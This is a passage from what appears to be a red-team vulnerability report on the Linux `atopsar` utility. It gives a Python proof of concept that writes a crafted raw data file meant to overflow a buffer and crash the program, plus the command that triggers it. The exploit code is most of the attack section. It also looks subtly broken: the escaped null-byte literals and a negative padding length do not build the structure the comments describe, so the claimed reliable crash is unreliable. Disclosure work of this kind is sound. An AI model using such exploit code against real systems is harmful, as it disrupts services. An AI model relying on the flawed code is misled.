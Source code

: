 These network-based approaches were consistently blocked by the limitations of the sandboxed test environment, which prevented reliable debugging and analysis of memory layouts.

### Final Successful Strategy: File-Based Denial-of-Service
The team pivoted to a file-based attack targeting the `atopsar` utility, which can read `atop` raw data files. This approach successfully bypassed the network and debugging issues. A reliable DoS exploit was created by crafting a malicious raw data file, leading to a confirmed crash.

## 4. Proof-of-Concept Exploit (Denial-of-Service)

### Exploit Code:
This code, developed by the Red Team, creates a malicious raw data file that causes `atopsar` to crash.
```python
import zlib
import struct

# Read a valid raw file to use as a template
with open("/tmp/valid.raw", "rb") as f:
    valid_data = f.read()

# Extract the header and the first record
header = valid_data[:416]
record = valid_data[416:416+80]

# Create a malicious sstat struct with an oversized busid to trigger the overflow
overflow_string = b"A" * 2000
# The pergpu struct is part of the larger sstat struct
pergpu_struct = b"\\x00" * 8 + overflow_string + b"\\x00" * (128 - 8 - len(overflow_string))
sstat_struct = b"\\x00" * (4096 - 128) + pergpu_struct

# Compress the malicious sstat struct as expected by atopsar
compressed_sstat = zlib.compress(sstat_struct)

# Update the scomplen (compressed length) in the record to match our malicious chunk
record = bytearray(record)
struct.pack_into('<I', record, 64, len(compressed_sstat))

# Write the new malicious file
with open("/tmp/malicious_final.raw", "wb") as f:
    f.write(header)
    f.write(record)
    f.write(compressed_sstat)

print("Malicious raw file created at /tmp/malicious_final.raw")
```

### Results:
The exploit successfully triggers a buffer overflow in the `atopsar` utility when it attempts to parse the malicious raw file (`atopsar -r /tmp/malicious_final.raw`), causing a segmentation fault and crashing the program. This reliably demonstrates a Denial-of-Service vulnerability.
